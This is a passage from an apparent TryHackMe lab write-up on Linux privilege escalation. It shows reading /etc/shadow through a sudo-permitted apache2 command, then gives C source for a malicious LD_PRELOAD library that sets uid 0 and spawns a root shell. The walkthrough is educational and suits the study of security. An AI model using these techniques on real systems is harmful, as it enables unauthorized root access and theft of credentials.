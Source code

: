 tryign out wiht the command `sudo apache2 -f /etc/shadow` as you can see we are able to see the contents of the shadow files

![Alt text](/assets/img/tryhackme/ln/ln17.png)

## Escalation via LD_PRELOAD

when checking `sudo -l `

we get ,which is an environment variable `LD_PRELOAD`

```zhs
TCM@debian:~$ sudo -l | grep LD_PRELOAD
    env_reset, env_keep+=LD_PRELOAD
TCM@debian:~$ 

```

`LD_PRELOAD` is also known as preloading.Is a feature of the LD , which is a dynamic linker.So to exploit this 
you are going to pre-loading a library,user specified library.
So run sudo with that `LD_PRELOAD` and run it on any command you want 
To exploit it , make a malicious file `.c`

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>


void _init(){
  unsetenv("LD_PRELOAD"); 
  setgid(0);
  setuid(0);
  system("/bin/bash");

}
```
![Alt text](/assets/img/tryhackme/ln/ln18.png)